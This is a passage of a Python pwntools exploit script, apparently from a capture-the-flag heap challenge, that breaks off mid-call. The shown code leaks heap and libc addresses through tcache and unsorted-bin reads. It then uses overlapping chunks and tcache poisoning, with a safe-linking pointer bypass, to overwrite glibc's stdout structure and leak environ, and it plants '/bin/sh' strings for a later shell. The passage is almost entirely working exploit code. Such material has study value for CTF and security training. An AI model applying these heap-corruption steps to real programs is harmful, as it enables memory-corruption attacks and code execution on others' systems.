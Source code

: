 ```py
        io.sendlineafter(b"> ", b"3")
        io.sendlineafter(b"idx: ", str(idx).encode())

    def free(idx):
        io.sendlineafter(b"> ", b"2")
        io.sendlineafter(b"idx: ", str(idx).encode())

    for i in range(7):
        add(i, 0x100, b"")

    # leak

    free(0)
    view(0)

    heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
    pwn.log.info(f"heap @ {hex(heap)}")

    add(0, 0x100, b"YY")

    add(7, 0x100, b"YY") # prev
    add(8, 0x100, b"YY") # a

    # fill tcache
    for i in range(7):
        free(i)

    for _ in range(20):
        add(9, 0x10, b"/bin/sh\0") # barrier

    free(8) # free(a) => unsortedbin
    free(7) # free(prev) => merged with a

    # leak libc
    view(8)

    libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
    pwn.log.success(f"libc: {hex(libc.address)}")

    stdout = libc.address + 0x21a780
    environ = libc.address + 0x2a72d0 + 8
    strr = libc.address + 0x1bd460

    pwn.log.success(f"environ: {hex(environ)}")
    pwn.log.success(f"stdout: {hex(stdout)}")

    add(0, 0x100, b"YY") # pop a chunk from the tcache to let an entry left to a 
    free(8) # free(a) => tcache

    # unsortedbin => oob on a => tcache poisoning
    add(
        1, 0x130, pwn.flat(
                            b"T"*0x108 + pwn.p64(0x111),
                           (stdout) ^ ((heap + 0x2b90) >> 12)
                           )
        )
    add(2, 0x100, b"TT")

    # tcache => stdout
    add(3, 0x100, pwn.flat(0xfbad1800, # _flags
                           libc.sym.environ, # _IO_read_ptr
                           libc.sym.environ, # _IO_read_end
```